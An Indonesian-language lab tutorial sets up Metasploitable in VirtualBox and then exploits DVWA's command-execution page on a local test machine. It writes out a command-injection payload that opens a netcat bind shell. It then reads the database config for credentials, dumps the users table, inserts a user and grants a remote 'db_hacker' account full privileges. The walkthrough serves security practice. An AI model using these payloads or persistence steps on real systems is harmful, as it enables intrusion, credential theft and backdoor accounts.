#DVWA
DVWA adalah perangkat lunak berbasis website yang didesain memiliki celah agar dapat digunakan untuk berlatih. Dalam hal ini akan digunakan DVWA sebagai eksploitable platform dan kali linux host yang akan kita gunakan untuk mengeksploit.
##Instalasi DVWA
1. Pertama kita harus memiliki metasploitable

2. Setelah itu, kita ekstrak

3. Lalu kita buka folder metasploitable tersebut

4. Selanjutnya kita jalankan program virtualbox dan buat virutal mesin baru lalu kita beri nama "metasploitable"

5. Setelah itu kita diminta memasukkan besar memory

6. Setelahnya kita diminta memilih mekanisme hardisk yang kita gunakan. Kita akan menggunakan pilihan ketiga lalu klik tombol folder di sebelah kanan  

7. Apabila tombol folder kita klik, maka akan muncul popup untuk memilih virtual disk. Kita pilih virtual disk metasploitable yang ada pada step 3.

8. Apabila kita sudah memilih, tampilan akan menjadi seperti dibawah ini lalu kita klik buat

9. Apabila berhasil, maka virtual mesin dengan nama "metasploitable" akan muncul pada daftar virtual mesin

10. Selanjutnya buka pengaturan jaringan pada virtual mesin yang baru saja kita buat. Kita pilih "Adaptor Ter-bridge" pada pilihan "Terpasang pada:"

11. Jalankan virtual mesin yang baru saja kita buat. Lalu kita masuk dengan menggunakan username: **msfadmin** dan password: **msfadmin**

12. Apabila kita berhasil login akan muncul tampilan seperti di bawah ini

13. Ketikkan **ifconfig** untuk mengetahui ip dari metasploitable yang telah kita buat. Dari gambar dibawah ini dapat kita lihat bahwa metasploitable kita mendapatkan ip **192.168.1.28**

14. Kita bisa mengakses metasploitable yang kita bangun dengan cara mengetikkan alamat ip dari metasploitable yang kita buat. Dalam hal ini ip metasploitable kita adalah **192.168.1.28**

15. Setelah itu kita diarahkan ke sebuah halaman yang berisi daftar modul metasploitable. Dalam hal ini kita hanya akan menggunakan dvwa. Kita klik **DVWA**

16. Selanjutnya kita akan diarahkan ke halaman login DVWA


##Eksploit DVWA
## Lesson 4(Using Metasploit with Command Execution)
Pada bagian ini kita akan belajar mengenai **Command Execution**. Dengan **Command Execution** memungkinkan penyerang untuk mengeksekusi perintah melalui bash   
1. Login DVWA. Default username: **admin** dan password: **password**.  
  
2. Ubah tingkat kesulitan pada DVWA menjadi low

3. Pilih "command execution" pada bar navigasi

4. Masukkan **192.168.1.28;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe** . Perintah tersebut akan membuka netcat session yang terhubung dengan bash
 
5. Selanjutnya kita buka metasploit framework pada kali linux

6. Apabila berhasil login akan muncul tampilan seperti di bawah ini. Pada gambar sudah terdapat syntax untuk terhubung dengan netcat session yang telah kita buat pada step 4.  

7. Apabila terhubung kita dapat menggunakan shell dvwa seperti pada gambar di bawah ini

pada gambar diatas dapat diketahui current working directory dan credential kita  
8. Pada step 7 dapat kita ketahui bahwa kita berada di directory **/var/www/dvwa/vulnerabilities/exec**. Lalu kita coba akses folder **/var/www/dvwa** yang merupakan root dari dvwa dengan perintah **"cd ../.."**

9. Selanjutnya kita buka folder **config** dan gunakan perintah **cat config.inc.php** untuk mengetahui konfigurasi dbms

pada gambar diatas terlihat bahwa user yang digunakan untuk mengakses dbms adalah **root** dan passwordnya adalah **''** atau kosong  
10. Kita memberikan query untuk melihat semua database ke mysql. Query: **echo "show databases;" | mysql -u root --password=""**
  
11. Selanjutnya kita bisa melihat daftar table yang ada pada databse dvwa. Query: **echo "use dvwa; show tables;" | mysql -u root --password=""** 
  
12. Selanjutnya kita coba melihat daftar user pada tabel users di database dvwa. Query: **echo "select * from dvwa.users;" | msql -u root --password=""**
  
13. Selanjutnya kita coba memasukkan record baru. Query: **echo "insert into dvwa.users values(6, 'kelompok', '11', 'kelompok11', MD5('kelompok11'), 'NA');"|mysql -u root --password=""**

14. Pada step 10 kita dapat melihat terdapat database **mysql**. Kita coba melakukan melihat tabel yang ada pada database mysql. Query: **echo "use mysql; show tables;"|mysql -u root --password=""**

15. Selanjutnya kita coba menambahkan user baru. Query: **echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'db_hacker'@'%' IDENTIFIED BY 'abc123' WITH GRANT OPTION;" | mysql -u root --password=""**


##Lesson 5(Using Tamper Data with crack_web_form.pl)